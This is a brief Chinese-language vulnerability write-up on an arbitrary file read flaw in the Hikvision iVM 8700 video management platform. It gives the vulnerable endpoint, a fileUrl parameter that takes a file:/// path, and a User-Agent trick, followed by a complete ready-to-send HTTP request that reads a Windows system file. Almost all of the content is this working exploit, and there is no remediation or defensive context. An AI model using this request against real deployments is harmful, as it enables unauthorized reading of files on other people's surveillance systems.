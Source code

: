 # 海康威视iVM8700任意文件读取20230810

海康威视ivm 8700 平台存在任意文件读取漏洞 

接口地址为/eps/triggerSnapshot/download.action 

在URL后添加参数?fileUrl=file:/// 

然后修改UA头为MicroMessenger 

完整数据包为

```
GET /eps/triggerSnapshot/download.action?fileUrl=file:///C:/windows/win.ini HTTP/1.1 

Host: IP 

User-Agent: MicroMessenger
```

![image-20230811104948943](C:\Users\86187\AppData\Roaming\Typora\typora-user-images\image-20230811104948943.png)
